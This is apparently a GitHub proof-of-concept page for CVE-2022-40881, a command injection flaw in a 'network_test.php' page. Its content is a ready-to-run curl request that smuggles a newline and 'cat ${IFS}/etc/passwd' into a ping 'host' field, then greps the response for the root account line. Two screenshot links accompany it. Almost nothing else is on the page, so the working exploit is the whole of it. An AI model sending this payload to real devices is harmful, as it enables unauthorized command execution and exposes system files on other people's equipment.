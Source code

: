 # CVE-2022-40881
## Vulnerability page : network_test.php
![image](https://user-images.githubusercontent.com/116296194/197006691-a972c2ac-5886-4b41-a68d-1b3bcc45ba5c.png)
## POC: 
curl -i -s -k -X 'POST' -H  'Content-Type: application/x-www-form-urlencoded'  --data-binary $'host=%0acat${IFS}/etc/passwd%0a&command=ping'   'http://example/network_test.php' | grep 'root:.*:0:0'
![image](https://user-images.githubusercontent.com/116296194/197007199-c601dd53-459f-48fa-b1c9-05df0077f591.png)
